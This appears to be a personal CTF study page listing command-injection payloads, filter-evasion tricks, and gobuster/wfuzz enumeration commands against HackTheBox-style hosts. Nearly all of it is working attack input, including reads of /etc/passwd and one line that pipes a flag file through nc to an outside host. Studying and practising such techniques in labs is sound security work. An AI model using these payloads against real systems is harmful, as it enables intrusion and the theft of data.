 # Command Injection & WAF bypass & Fuzzing
[TOC]
###### tags: `Security` `Fuzzing`

```
& ; - ` | $
```

# Command Injection
## Cheatsheet
[GitHub - payloadbox](https://github.com/payloadbox/command-injection-payload-list)
```
| cat flag
&& cat flag
; cat flag
%0a cat flag
"; cat flag
`cat flag`
cat $(ls)
"; cat $(ls)
`cat flag | nc wildfoo.tw 7778`

. flag
PS1=$(cat flag)

`echo${IFS}${PATH}|cut${IFS}-c1-1`
=> /
```

## keywords
### Regular expression
- `?` match one character
    - `cat fl?g`
    - `/???/??t /???/p??s??`
- `*` match multiple characters
    - `cat f*`
    - `cat f?a*`

### String Concat
- `A=fl;B=ag;cat $A$B`
    
### Empty Variable
- `cat fl${x}ag`
- `cat tes$(z)t/flag`
    
### Environment Variable
use `env` to print out environment variables
- `$PATH => "/usr/local/….blablabla”`
    - `${PATH:0:1}   => '/'`
    - `${PATH:1:1}   => 'u'`
    - `${PATH:0:4}   => '/usr'`
- `${PS2}` 
    - `>`
- `${PS4}`
    - `+`
       
### String operating
- Empty String
    - `cat fl""ag`
    - `cat fl''ag`
- `cat "fl""ag"`

### Backslash
- `c\at fl\ag`
    
## \<space> characters
### `${IFS}`
- `cat${IFS}flag`
- `ls$IFS-alh`
- `cat$IFS$2flag`
### Redirecting
- `cat</etc/passwd`

#### bash
- `{cat,/etc/passwd}`
- `X=$'cat\x20/etc/passwd'&&$X`
- ``` IFS=,;`cat<<<uname,-a` ```

# WAF bypass & Fuzz
### Enum path
* `gobuster -u http://fluxcapacitor.htb -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`
### Enum option
* `wfuzz --hh BBB -H "User-Agent:alamot" -c -z file,/usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt http://10.10.10.69/sync/?FUZZ{not_this}=test`
* `wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "User-Agent: nothingtoseehere" --hh=19 "http://fluxcapacitor.htb/sync?FUZZ=test"`
https://bitvijays.github.io/LFC-VulnerableMachines.html#parameter-fuzz
### Enum bad char
* `wfuzz -c -w /usr/share/wordlists/SecLists/Fuzzing/special_chars.txt -u http://10.10.10.69/sync?opt=FUZZ`

# Example
```
opt=' pw''d'
opt=' whi''ch cu''rl'
opt=' /usr/bin/whi[c]h mk\nod'
opt=' p\s aux'
```